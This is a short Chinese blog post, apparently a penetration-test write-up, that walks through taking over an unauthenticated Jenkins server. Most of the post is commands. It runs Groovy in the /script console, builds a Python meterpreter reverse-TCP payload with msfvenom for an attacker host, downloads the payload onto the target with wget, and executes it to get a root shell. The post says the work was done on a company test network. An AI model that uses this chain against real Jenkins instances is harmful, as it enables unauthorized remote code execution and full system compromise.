








Jenkins未授权-反弹shell
最近对公司测试网进行渗透，发现了个未授权的Jenkins。
- 发现未授权的Jenkins

- 转到脚本执行处：http://192.168.1.226:9090/script
1 | println "ifconfig".execute().text |

- 生成反弹shell的脚本
1 | msfvenom -p python/meterpreter/reverse_tcp LHOST=172.16.16.126 LPORT=9901 -f raw >/var/www/html/jdk.py |

- 开启apache

- Kali中使用msfconsole开启反弹shell监听
1 | msfconsole |

- 接着命令执行通过wget将后门文件jdk.py下载到本机Jenkins目录下，Result没有报错证明执行成功
1 | println "wget http://172.16.16.126/jdk.py -P /".execute().text |

- 执行后门文件
1 | println "python jdk.py".execute().text |

- 成功监听上线拿到root权限。
